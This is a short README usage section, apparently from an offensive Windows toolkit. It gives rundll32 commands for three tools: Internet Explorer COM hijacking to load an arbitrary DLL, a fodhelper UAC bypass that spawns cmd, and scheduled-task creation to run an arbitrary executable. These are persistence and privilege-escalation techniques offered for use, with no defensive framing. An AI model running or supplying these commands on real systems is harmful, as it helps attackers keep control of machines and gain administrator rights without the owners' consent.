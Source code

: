 # Usage:
### ieHijack
ie浏览器的com劫持
```
rundll32.exe ieHijack.dll,ieHijack C:\users\test\test.dll
```
### fodhelper
uac bypass
```
rundll32.exe fodhelper.dll,fodhelper cmd
```
### schtask
计划任务的dll实现
```
rundll32.exe schtask.dll,CreateTask C:\users\test\test.exe
```
